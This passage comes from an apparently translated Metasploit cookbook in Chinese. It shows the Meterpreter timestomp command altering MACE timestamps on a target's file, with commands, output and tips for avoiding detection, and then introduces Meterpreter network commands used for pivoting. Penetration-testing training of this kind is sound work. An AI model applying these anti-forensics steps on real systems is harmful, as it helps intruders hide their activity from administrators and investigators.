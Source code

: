 ```
在上一个步骤中，我们了解了一些重要且有用的 meterpreter 文件系统命令，可用于在目标机器上执行各种任务。 Meterpreter 还包含另一个有趣的命令，称为`timestomp`。此命令用于更改文件的**修改-访问-创建-输入（MACE）**属性。属性值是文件发生任何 MACE 活动的日期和时间。使用`timestomp`命令，我们可以更改这些值。

## 准备就绪

在开始配方之前，可能会有一个问题在你的脑海中出现。为什么要更改 MACE 值？黑客通常使用更改 MACE 值的技术，以使目标用户感到文件已经存在系统很长时间，并且没有被触摸或修改。在可疑活动的情况下，管理员可能会检查最近修改的文件，以查找是否已修改或访问任何文件。因此，使用此技术，文件将不会出现在最近访问或修改项目的列表中。即使还有其他技术可以找出文件属性是否已被修改，这种技术仍然很有用。

让我们从目标机器中挑选一个文件并更改其 MACE 属性。以下屏幕截图显示了在使用“timestomp”之前文件的各种 MACE 值：

![准备就绪](img/7423_05_03.jpg)

现在我们将继续前进，更改各种 MACE 值。让我们从常见的`timestomp -h`命令开始，该命令用于列出各种可用选项。我们可以使用`-v`运算符列出 MACE 属性的值：

```
meterpreter > timestomp d:\secret.doc v
Modified : 2011-12-12 16:37:48 +0530
Accessed : 2011-12-12 16:37:48 +0530
Created : 2011-12-12 16:37:47 +0530
Entry Modified: 2011-12-12 16:47:56 +0530 
```

## 如何做...

我们将从更改文件的创建时间开始。注意使用`timestomp`命令传递的各种参数：

```
meterpreter > timestomp d:\secret.doc -c "3/13/2013 13:13:13"
[*] Setting specific MACE attributes on d:secret.doc 
```

## 它是如何工作的...

`-c`运算符用于更改文件的创建时间。同样，我们可以使用`-m`和`-a`运算符来更改文件的修改和最后访问属性：

```
meterpreter > timestomp d:\secret.doc -m "3/13/2013 13:13:23"
[*] Setting specific MACE attributes on d:secret.doc
meterpreter > timestomp d:\secret.doc -a "3/13/2013 13:13:33"
[*] Setting specific MACE attributes on d:secret.doc 
```

属性更改后，我们可以再次使用`-v`运算符来检查和验证我们是否成功执行了命令。让我们继续检查文件属性：

```
meterpreter > timestomp d:\secret.doc v
Modified : 2013-03-13 13:13:13 +0530
Accessed : 2013-03-13 13:13:23 +0530
Created : 2013-03-13 13:13:33 +0530
Entry Modified: 2013-03-13 13:13:13 +0530 
```

太棒了！我们已成功修改了文件的 MACE 属性。现在这个文件可以很容易地从最近修改或最近访问文件的列表中隐藏起来。

或者，我们也可以使用`-z`运算符一次性更改所有四个 MACE 值。我们不必为每个值单独传递命令。但是`-z`运算符会将相同的值分配给所有四个 MACE 属性，这在实际上是不可能的。创建和访问时间之间必须有一些时间差。因此，应避免使用`-z`运算符。

这是一个处理`timestomp`实用程序的小技巧。在下一个技巧中，我们将看一些有用的 Meterpreter 网络命令，当我们了解枢纽转移时，这些命令将对我们非常有用。

# 使用 meterpreter 网络命令

Meterpreter 还为我们提供了一些有用的网络命令。这些命令对于了解目标用户的网络结构很有用。我们可以分析系统是属于局域网还是独立系统。我们还可以了解 IP 范围、DNS 和其他信息。在进行枢纽转移时，这些网络信息可能很有用。枢纽转移是一个概念，通过它我们可以攻击与我们的目标位于同一网络中的其他计算机。我们将在下一章中了解枢纽转移，重点是 Meterpreter 的高级用法。

```